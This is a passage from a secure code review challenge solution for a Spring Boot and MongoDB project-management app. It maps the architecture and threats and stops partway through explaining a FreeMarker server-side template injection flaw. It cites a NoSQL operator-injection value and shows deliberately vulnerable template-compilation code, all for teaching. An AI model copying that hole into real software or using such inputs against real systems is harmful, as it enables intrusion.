




# Secure Code Review — Challenge #9: ProjectHub — Solution

<table>
<tr>
<td width="100%">

### 🎥 A video walkthrough of this solution is coming soon on my YouTube Channel  [AppSec Untangled](https://www.youtube.com/@AppSecUntangled)

Full walkthrough of the review process, the finding, and the fix — subscribe to get notified when it's out.

[](https://www.youtube.com/@AppSecUntangled)

</td>
</tr>
</table>

---

# Part I: Review Steps

*The methodology followed to build a mental model of the system before looking for the flaw. It
mirrors the [suggested methodology](../../README.md#suggested-methodology): scope → entry points →
sinks → threat model → mitigation review.*

## 1. 🗺️ Application scope & architecture

**ProjectHub** is a small team project-management service. In one glance:

- **What it is:** a project-management app — teams register, create projects, invite each other,
  track **tasks** on a board, and generate a free-form **status report** from a per-project template.
- **Stack:** **[Spring Boot](https://docs.spring.io/spring-boot/index.html) 3.3.5 on Java 21**, with
  **[Spring Security](https://docs.spring.io/spring-security/reference/index.html)**.
- **Two front doors, one server:** a JSON API under `/api`, and a server-side HTML UI rendered with
  **[FreeMarker](https://freemarker.apache.org/docs/index.html)**.
- **Data store:** **[MongoDB](https://www.mongodb.com/docs/)** via
  **[Spring Data MongoDB](https://docs.spring.io/spring-data/mongodb/reference/)**.
- **Packaging:** everything runs under Docker Compose.
- **Authentication:** a **JWT** — a bearer token for the API, an HTTP-only cookie for the UI.
- **Authorization:** by **project membership and role** (`owner` / `admin` / `member`).

Let's follow the system as four stories.

### 🚀 What happens when the app starts



<sub>Diagram source: [Mermaid](diagrams/01-startup.mmd) · [Excalidraw](diagrams/01-startup.excalidraw)</sub>

> **New to Spring?** The thing to internalize for this story: in a Spring Boot app almost nothing is
> wired up by an explicit call you can grep for. You start at one `main()`, and from there a single
> annotation (`@SpringBootApplication`) **scans the package and auto-registers every annotated class**
> (`@RestController`, `@Service`, `@Configuration`, …) as a managed object ("bean"). So to find *how
> requests get authenticated*, you don't look for code that calls the security setup — you look for
> the class that *declares* it (`@Configuration` + a `SecurityFilterChain` bean). Steps 3–8 trace
> exactly that path.

1. **docker-compose up --build** — Compose brings up two containers: our `app` and a stock `mongo:7`.
   Only the app is ours; Mongo is a black box we talk to over the `app-network` bridge. `build: .`
   means "build the `app` image from the Dockerfile in this directory"
   ([docker-compose.yml#L1-L37](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/docker-compose.yml#L1-L37)):

   ```yaml
   services:
     mongo:
       image: mongo:7
     app:
       build: .
       environment:
         MONGODB_URI: mongodb://mongo:27017/projecthub
       env_file:
         - .env
   ```

2. **Dockerfile: mvn package → app.jar** — the image is a two-stage build. The first stage runs
   [Maven](https://maven.apache.org/) (`mvn package`), which compiles all the Java source and bundles
   it — together with every dependency and an embedded Tomcat web server — into one self-contained
   executable "fat jar", `projecthub.jar`. The second stage copies that jar in as `app.jar` and runs
   it as a non-root `appuser`
   ([Dockerfile#L1-L25](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/Dockerfile#L1-L25)):

   ```dockerfile
   FROM maven:3.9-eclipse-temurin-21 AS build
   RUN mvn -q -B package -DskipTests          # → target/projecthub.jar

   FROM eclipse-temurin:21-jre
   COPY --from=build /build/target/projecthub.jar app.jar
   USER appuser
   CMD ["java", "-jar", "app.jar"]
   ```

3. **CMD java -jar app.jar** — this single line is *everything* the container runs. `java -jar` looks
   inside the jar's manifest for a `Main-Class` and calls its `public static void main`. **This is
   where a reviewer starts reading the code:** search the source for `void main`, and it lands on one
   tiny class
   ([ProjectHubApplication.java#L7-L12](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/ProjectHubApplication.java#L7-L12)):

   ```java
   @SpringBootApplication(exclude = UserDetailsServiceAutoConfiguration.class)
   public class ProjectHubApplication {
       public static void main(String[] args) {
           SpringApplication.run(ProjectHubApplication.class, args);
       }
   }
   ```

4. **main() → SpringApplication.run()** — that one call hands control to Spring Boot, which builds the
   "application context" (the registry of all the app's objects). It also reads
   [`application.properties`](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/resources/application.properties)
   and the environment here — the port, the Mongo URI, and `app.jwt-secret` (from `JWT_SECRET`):

   ```properties
   server.port=${PORT:3000}
   spring.data.mongodb.uri=${MONGODB_URI:mongodb://localhost:27017/projecthub}
   app.jwt-secret=${JWT_SECRET}
   ```

5. **@SpringBootApplication scans com.projecthub** — the `@SpringBootApplication` annotation turns on
   [component scanning](https://docs.spring.io/spring-framework/reference/core/beans/classpath-scanning.html):
   Spring walks the `com.projecthub` package, finds every class marked `@RestController`, `@Service`,
   `@Component`, `@Configuration`, etc., and registers one instance of each as a bean. Nothing calls
   these classes by hand — the annotations are the wiring. (The `exclude = …` just turns off Spring's
   default login-form user, because this app authenticates with its own JWT.)

6. **create @Configuration beans** — one of the scanned classes is `SecurityConfig`, marked
   `@Configuration`. Spring instantiates it and runs each of its `@Bean` methods, keeping the returned
   objects. The important one is `filterChain(...)`, which returns a `SecurityFilterChain` — the
   object Spring Security uses to decide what happens to **every** incoming request
   ([SecurityConfig.java#L27-L28](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/SecurityConfig.java#L27-L28)):

   ```java
   @Bean
   public SecurityFilterChain filterChain(HttpSecurity http, JwtService jwtService) throws Exception {
   ```

7. **@Bean SecurityFilterChain** — inside that method the global request policy is declared: sessions
   are stateless, and every path except the auth routes, `/css/**` and `/health` needs an
   authenticated principal
   ([SecurityConfig.java#L29-L47](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/SecurityConfig.java#L29-L47)):

   ```java
   .authorizeHttpRequests(auth -> auth
       .requestMatchers("/login", "/register", "/css/**", "/health", "/error").permitAll()
       .requestMatchers(HttpMethod.POST, "/api/auth/register", "/api/auth/login").permitAll()
       .anyRequest().authenticated())
   ```

   CSRF protection uses Spring Security's double-submit
   [`CookieCsrfTokenRepository`](https://docs.spring.io/spring-security/reference/servlet/exploits/csrf.html#servlet-csrf-configure-custom-repository),
   and is **disabled for `/api/**`** (the API is token-authenticated, not cookie-authenticated, so it
   isn't CSRF-reachable).

8. **addFilterBefore(JwtAuthFilter)** — the same method plugs a custom filter into the request
   pipeline, ahead of Spring's own auth filter. *This* is the code that actually turns a token into a
   logged-in user: for `/api/**` it reads the `Bearer` header, otherwise the `token` cookie, verifies
   it, and sets the principal to the user id
   ([JwtAuthFilter.java#L27-L35](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/JwtAuthFilter.java#L27-L35)):

   ```java
   String token = request.getRequestURI().startsWith("/api/") ? bearerToken(request) : cookieToken(request);
   if (token != null) {
       jwtService.verify(token).ifPresent(userId -> SecurityContextHolder.getContext().setAuthentication(
               new UsernamePasswordAuthenticationToken(userId, null, List.of())));
   }
   ```

9. **connect (Spring Data)** — Spring Data opens the MongoDB connection from `spring.data.mongodb.uri`
   and exposes a `MongoTemplate`. The store classes (`UserStore`, `ProjectStore`, …) wrap it with
   typed, field-scoped queries
   ([ProjectStore.java#L28-L41](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/ProjectStore.java#L28-L41)).

10. **listening on :3000** — the embedded Tomcat starts and the app serves both the UI and the API.
    Spring Boot has also auto-configured [FreeMarker](https://freemarker.apache.org/docs/) as the HTML
    template engine for the `*.ftlh` files under `templates/` — and that same FreeMarker
    `Configuration` object is later reused by `ReportService`. Remember that; it's the thread the
    finding pulls on.

### 🔄 What happens for the main stories

Three stories cover the app's real work:

1. **Register & log in**
2. **Invite a member & accept**
3. **Generate a status report**

#### Story 1: Register & log in



<sub>Diagram source: [Mermaid](diagrams/02-auth.mmd) · [Excalidraw](diagrams/02-auth.excalidraw)</sub>

1. **POST /register (username, password)** — the UI form (and the `/api/auth/register` JSON twin)
   hand the credentials to `AuthService`
   ([PageController.java#L99-L109](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/pages/PageController.java#L99-L109)).

2. **register(username, password)** — length checks, uniqueness check, then hashing
   ([AuthService.java#L23-L41](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/AuthService.java#L23-L41)).

3. **insert user (bcrypt hash)** — the password is stored only as a
   [BCrypt](https://docs.spring.io/spring-security/reference/features/authentication/password-storage.html#authentication-password-storage-bcrypt)
   hash, and `passwordHash` is `@JsonIgnore` so it never serializes into an API response
   ([User.java#L19-L20](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/model/User.java#L19-L20)):

   ```java
   @JsonIgnore
   private String passwordHash;
   ```

4. **POST /login (username, password)** — the login form posts the credentials.

5. **login(username, password)** — the user is looked up and the password compared with
   `passwordEncoder.matches`; a wrong user or password yields the same `401`
   ([AuthService.java#L43-L53](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/AuthService.java#L43-L53)).

6. **issue(userId)** — on success `JwtService` mints a token whose subject is the user id.

7. **signed JWT (HS256)** — the token is signed with the shared secret using
   [HS256](https://github.com/jwtk/jjwt#jws-create) and a 24-hour expiry
   ([JwtService.java#L27-L35](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/auth/JwtService.java#L27-L35)).

8. **Set-Cookie token (HttpOnly)** — the UI stores it in an `HttpOnly`, `SameSite=Lax` cookie
   ([PageController.java#L283-L291](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/pages/PageController.java#L283-L291)).

#### Story 2: Invite a member & accept



<sub>Diagram source: [Mermaid](diagrams/03-invite.mmd) · [Excalidraw](diagrams/03-invite.excalidraw)</sub>

1. **POST /api/projects/{id}/members** — whoever creates a project is its `owner`; an owner or
   admin invites others by username
   ([MemberController.java#L42-L47](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/api/MemberController.java#L42-L47)).

2. **invite(projectId, owner, username, role)** — the service resolves the target user and records
   an invitation
   ([ProjectService.java#L82-L104](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ProjectService.java#L82-L104)).

3. **requireAdmin(owner)** — only an owner/admin may invite; the check is centralized in
   `requireAdmin`, which first enforces membership
   ([ProjectService.java#L134-L140](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ProjectService.java#L134-L140)):

   ```java
   private Project requireAdmin(String projectId, String userId, String message) {
       Project project = getForMember(projectId, userId);
       if (!isAdmin(project, userId)) {
           throw new ApiException(HttpStatus.FORBIDDEN, message);
       }
       return project;
   }
   ```

4. **create invitation (pending)** — a pending `Invitation` document is stored for the invitee.

5. **POST /api/invitations/{id}/accept** — the invited user accepts from their invitations list
   ([InvitationController.java#L30-L34](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/api/InvitationController.java#L30-L34)).

6. **accept(invitationId, invitee)** — the service verifies the invitation really belongs to the
   caller before acting
   ([InvitationService.java#L34-L44](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/InvitationService.java#L34-L44)).

7. **push member onto project** — the invitee is appended to the project's `members` array with the
   invited role
   ([ProjectStore.java#L43-L45](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/ProjectStore.java#L43-L45)).

8. **joined project** — the invitee is now a member and can see the project, its tasks and its
   report template.

#### Story 3: Generate a status report



<sub>Diagram source: [Mermaid](diagrams/04-report.mmd) · [Excalidraw](diagrams/04-report.excalidraw)</sub>

1. **POST /api/projects/{id}/report {template}** — any member can generate a report, optionally
   passing an ad-hoc `template` string in the body (otherwise the saved project template is used)
   ([ProjectController.java#L55-L60](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/api/ProjectController.java#L55-L60)):

   ```java
   @PostMapping("/{projectId}/report")
   public Map<String, String> generateReport(@PathVariable String projectId,
           @RequestBody(required = false) Map<String, Object> body) {
       String template = body != null ? optionalString(body, "template") : null;
       return Map.of("report", projectService.generateReport(projectId, CurrentUser.id(), template));
   }
   ```

2. **generateReport(id, user, template)** — the service chooses the caller's template over the saved
   one
   ([ProjectService.java#L73-L80](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ProjectService.java#L73-L80)):

   ```java
   public String generateReport(String projectId, String userId, String template) {
       Project project = getForMember(projectId, userId);
       String templateSource = template != null ? template : project.getReportTemplate();
       ...
       return reports.render(templateSource, project);
   }
   ```

3. **getForMember(id, user)** — authorization is membership only: any member (not just admins) may
   generate a report
   ([ProjectService.java#L57-L63](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ProjectService.java#L57-L63)).

4. **findById(projectId)** — the project (with its fields) is loaded to supply the report data.

5. **render(template, project)** — the template string and the project are handed to `ReportService`.

6. **new Template(reader).process()** — `ReportService` *compiles the template string at request time*
   and processes it with `{project}` in scope
   ([ReportService.java#L25-L33](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ReportService.java#L25-L33)):

   ```java
   Template template = new Template("report", new StringReader(templateSource), freemarker);
   StringWriter out = new StringWriter();
   template.process(Map.of("project", project), out);
   return out.toString();
   ```

7. **200 {report}** — the rendered text is returned.

The intended "template" is a simple field-substitution string — the UI even advertises the fields
`${project.name}`, `${project.status}`, `${project.description}`, and the default is exactly that
([ProjectStore.java#L19-L20](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/ProjectStore.java#L19-L20)).
But note the asymmetry: the *entire* submitted string is handed to a real template compiler, by any
member — hold that thought for §4/5.

## 2. 🚪 Entry points

All `/api/**` routes require a valid Bearer JWT; all page routes require the `token` cookie. Auth
routes are public. Untrusted input enters at:

- `POST /api/auth/register`, `POST /api/auth/login` (and `POST /register`, `POST /login`) — *auth:*
  public — username/password.
- `GET/POST /api/projects`, `GET /api/projects/{id}` — *auth:* any user (POST) / project member (GET)
  — project name, description, status.
- `PUT /api/projects/{id}/template` and `POST /projects/{id}/template` — *auth:* project member —
  **report template string**.
- `POST /api/projects/{id}/report` and `POST /projects/{id}/report` — *auth:* project member —
  **ad-hoc report template string**.
- `GET/POST/PUT/DELETE /api/projects/{id}/tasks[/{taskId}]` — *auth:* project member — task title,
  description, status, assignee.
- `GET/POST/PATCH/DELETE /api/projects/{id}/members[/{memberUserId}]` — *auth:* member (GET) /
  admin+owner (mutations) — invited username, role, member id.
- `GET /api/invitations`, `POST /api/invitations/{id}/accept|decline` — *auth:* the invited user —
  invitation id.

## 3. 🎯 Dangerous sinks (code & dependencies)

- **S1 — FreeMarker template compiled from request input** → **SSTI / RCE**. `ReportService.render`
  builds `new Template(...)` from a user-supplied string and processes it. Fed from the `template`
  body field of the report/template endpoints.
  ([ReportService.java#L25-L33](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ReportService.java#L25-L33))

- **S2 — MongoDB operations built from request input** → **NoSQL injection**. Everything that reaches
  the database is assembled from user-supplied values:
  - *Queries* — stores build `Criteria` from ids/usernames (e.g. `where("username").is(username)`,
    `findById`), fed from path variables and body fields → **operator injection**
    ([UserStore.java#L28-L30](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/UserStore.java#L28-L30),
    [ProjectStore.java#L28-L37](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/ProjectStore.java#L28-L37)).
  - *Updates* — `TaskStore.update` iterates a `Map` into `Update.set(...)`, fed from the task-update
    body → **mass assignment / update-operator injection**
    ([TaskStore.java#L40-L44](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/TaskStore.java#L40-L44)).

- **S3 — FreeMarker rendering of stored data in the HTML UI** → **stored XSS**. The `*.ftlh` views
  interpolate user data (project name, description, task title/description, username) with `${...}`.
  Fed from every stored string.
  ([project.ftlh#L1-L151](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/resources/templates/project.ftlh#L1-L151))

- **S4 — redirect target built from request data** (`"redirect:/projects/" + projectId`) → **open
  redirect**. Fed from path variables in `PageController`.
  ([PageController.java#L249-L260](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/pages/PageController.java#L249-L260))

*(Loading an object by a user-supplied id is **not** a sink — it's an authorization concern; the IDOR
/ broken-object-level-authorization question is handled under business logic in T2 below.)*

## 4 & 5. 🧩 Threat model & 🔍 mitigation review

### 🔓 Business-logic vulnerabilities

**T1 — Authentication** *(can a request act as a user it isn't?)*
*Expected:* every non-public route needs a valid, signed, unexpired JWT — checked on **every** request.
*Code:* `SecurityConfig` ([SecurityConfig.java#L27-L47](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/SecurityConfig.java#L27-L47))
splices a [`OncePerRequestFilter`](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/web/filter/OncePerRequestFilter.html)
into the [Spring Security filter chain](https://docs.spring.io/spring-security/reference/servlet/architecture.html)
with `addFilterBefore`, so it runs before authorization; `JwtAuthFilter`
([JwtAuthFilter.java#L25-L35](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/JwtAuthFilter.java#L25-L35))
sets the principal **only** on a successful
[`jwtService.verify`](https://github.com/jwtk/jjwt#jws-read)
([JwtService.java#L37-L48](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/auth/JwtService.java#L37-L48)),
which rejects tampered / `alg:none` tokens, and `.anyRequest().authenticated()` refuses anything that
reaches the end without one. **✅ Mitigated.**

```java
// SecurityConfig.java — install JwtAuthFilter ahead of authorization
.authorizeHttpRequests(auth -> auth.anyRequest().authenticated())
.addFilterBefore(new JwtAuthFilter(jwtService), UsernamePasswordAuthenticationFilter.class);

// JwtAuthFilter.java (OncePerRequestFilter) — principal set only when the token verifies
jwtService.verify(token).ifPresent(userId -> SecurityContextHolder.getContext()
        .setAuthentication(new UsernamePasswordAuthenticationToken(userId, null, List.of())));
```

**T2 — Authorization / IDOR** *(can a member touch another project's objects?)*
*Expected:* every project-scoped action re-checks membership and that the task/invitation belongs to
the right project/user — the standard defence against an
[IDOR / broken object-level authorization](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html).
*Code:* `getForMember`
([ProjectService.java#L57-L63](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ProjectService.java#L57-L63))
404s non-members; `requireTaskInProject`
([TaskService.java#L102-L108](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/TaskService.java#L102-L108))
/ `requirePending`
([InvitationService.java#L51-L60](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/InvitationService.java#L51-L60))
reject cross-object ids; privileged member ops go through `requireAdmin` and the owner role is
protected. **✅ Mitigated.**

```java
// ProjectService.getForMember — non-members get 404, never the object
if (project == null || !isMember(project, userId))
    throw new ApiException(HttpStatus.NOT_FOUND, "Project not found");

// TaskService.requireTaskInProject — the id must belong to the project in the path
if (task == null || !task.getProjectId().equals(projectId))
    throw new ApiException(HttpStatus.NOT_FOUND, "Task not found");
```

**T3 — CSRF on state-changing UI routes**
*Expected:* cookie-authenticated POSTs carry an unguessable token; the token-authenticated `/api/**`
doesn't need one. *Code:* Spring Security's
[`CookieCsrfTokenRepository`](https://docs.spring.io/spring-security/reference/servlet/exploits/csrf.html)
is enabled for page routes
([SecurityConfig.java#L27-L47](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/config/SecurityConfig.java#L27-L47))
and every form emits `<@csrfField/>`
([layout.ftlh#L43-L45](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/resources/templates/layout.ftlh#L43-L45));
`/api/**` is explicitly ignored. **✅ Mitigated.**

```java
// SecurityConfig.java — CSRF on for the UI, off for the stateless token API
.csrf(csrf -> csrf
        .csrfTokenRepository(new CookieCsrfTokenRepository())
        .ignoringRequestMatchers(API))   // API = URIs starting with "/api/"
```
```html
<#-- layout.ftlh — the macro every POST form includes -->
<#macro csrfField><input type="hidden" name="${csrf.parameterName}" value="${csrf.token}"></#macro>
```

**T4 — S2 mass assignment on task update**
*Expected:* only whitelisted fields reach the DB update. *Code:* `TaskService.update`
([TaskService.java#L56-L94](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/TaskService.java#L56-L94))
copies exactly four named, type-checked fields into its own `changes` map; nothing else from the body
is forwarded, so a [mass-assignment](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)
body like `{"project_id":…,"created_by":…}` can't move a task between projects or rewrite ownership.
**✅ Mitigated.**

```java
// TaskService.update — explicit allowlist; any other body key is ignored
Map<String, Object> changes = new HashMap<>();
if (body.containsKey("title"))       changes.put("title", title);            // + validation
if (body.containsKey("description")) changes.put("description", description);
if (body.containsKey("status"))      changes.put("status", status);          // requireValidStatus
if (body.containsKey("assigned_to")) changes.put("assignedTo", assignedTo);  // requireAssignable
if (!changes.isEmpty()) tasks.update(taskId, changes);
```

### 💉 Source-to-sink (injection) vulnerabilities

**T5 — S2 NoSQL injection**
*Expected:* queries use typed values, not raw request-shaped objects. *Code:* every store builds a
[`Criteria.where(...).is(value)`](https://docs.spring.io/spring-data/mongodb/reference/mongodb/template-query-operations.html)
with `String` values and gates ids with `ObjectId.isValid`
([ProjectStore.java#L28-L37](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/store/ProjectStore.java#L28-L37));
bodies bind to typed records, so a `{$ne:null}`-style object can't reach a query operator.
**✅ Mitigated.**

```java
// ProjectStore — id validated first, then a typed value in a parameterised criterion
if (projectId == null || !ObjectId.isValid(projectId)) return null;
mongo.find(Query.query(where("members.userId").is(userId)), Project.class);
```

**T6 — S3 stored XSS in the HTML UI**
*Expected:* interpolations are HTML-escaped at render. *Code:* the views are `.ftlh` files, for which
[Spring Boot](https://docs.spring.io/spring-boot/reference/web/servlet.html#web.servlet.spring-mvc.template-engines)
turns on [FreeMarker HTML auto-escaping](https://freemarker.apache.org/docs/dgui_misc_autoescaping.html)
by default, so `${project.name}` and even the report shown in `<pre>${report}</pre>`
([project.ftlh#L148](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/resources/templates/project.ftlh#L148))
are escaped in the HTML view. **✅ Mitigated.**

```html
<#-- project.ftlh — ${...} is HTML-escaped because the view is a .ftlh template -->
<pre class="report">${report}</pre>
```

**T7 — S4 open redirect**
*Expected:* redirect targets aren't attacker-controlled absolute URLs. *Code:* every `redirect:` is a
fixed path or `"/projects/" + id` where `id` was just loaded from the DB on the success path
([PageController.java#L249-L260](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/web/pages/PageController.java#L249-L260)),
so it's always a relative, same-site path — never an
[unvalidated redirect](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)
to an external URL. **✅ Mitigated.**

```java
// PageController.act — relative, server-built target; no user-supplied URL
return "redirect:/projects/" + projectId;
```

**T8 — S1 SSTI in the report template**
*Expected:* a user-supplied "template" must be treated as **data**, not code — rendered through a
placeholder-only / sandboxed mechanism, or a FreeMarker `Configuration` locked down with a
[`TemplateClassResolver`](https://freemarker.apache.org/docs/api/freemarker/core/TemplateClassResolver.html)
that refuses dangerous classes. *Code:* `ReportService.render`
([ReportService.java#L25-L33](https://github.com/mohamed-osama-aboelkheir/the-secure-code-review-challenge/blob/main/challenges/009-projecthub/src/main/java/com/projecthub/service/ReportService.java#L25-L33))
does the opposite — it compiles the raw request string with `new Template(...)` on the app's
